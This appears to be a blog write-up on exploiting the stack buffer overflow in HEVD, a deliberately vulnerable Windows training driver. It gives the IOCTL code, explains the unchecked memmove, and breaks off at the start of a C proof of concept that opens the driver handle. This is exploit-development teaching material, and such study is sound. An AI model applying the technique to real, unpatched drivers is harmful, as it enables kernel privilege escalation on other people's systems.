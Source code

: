 ```yaml
---
layout: single
title:  "HEVD - Stack Overflow Windows 10 RS1"
date:   2022-01-06 20:46:55.487948
categories: windows kernel
---
```

# Exploiting Buffer Overflow

## Finding The IOCTL
For start, we need to find the `IOCTL` in order to trigger the StackBufferOverflow handler.
After looking at ida we can see the following-

![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%20220102192541.png?raw=true)

The `IOCTL` is `0x222003`.


## Code Overview
Looking at `BufferOverflowStack` function -

![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%20220102193004.png?raw=true)

We can see it takes two arguments, `UserBuffer` and `Size`.
Where `Size` is the size of `UserBuffer`.

Let's go over the important parts here,
First, We can see there is a 2048 bytes buffer allocation, I named the variable "local_allocated_buffer".
Seconed, the buffer is being filled with zeros.
```c
char local_allocated_buffer[2048];
memset(local_allocated_buffer, 0, sizeof(local_allocated_buffer));
```
Then we can see a call to `ProbeForRead` which validates that `UserBuffer` is allocated in user space.
Last, we see the following `memmove` call -
```C
memmove(local_allocated_buffer, UserBuffer, Size);
```
This line is where the vulnerability occures, the `UserBuffer` is being moved into `local_allocated_buffer` without validating that `Size <= 2048`, this is a vanilla buffer overflow .

## Exploiting The Vulnerability
Let's write a POC for crashing the system -

```C
#include <iostream>
#include <Windows.h>

#define IO_CODE 0x222003

int main() {

	auto hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);

	if (hDevice == INVALID_HANDLE_VALUE) {
		std::cout << "Unable to get a handle to the driver" << std::endl;
		exit(1);
	}

```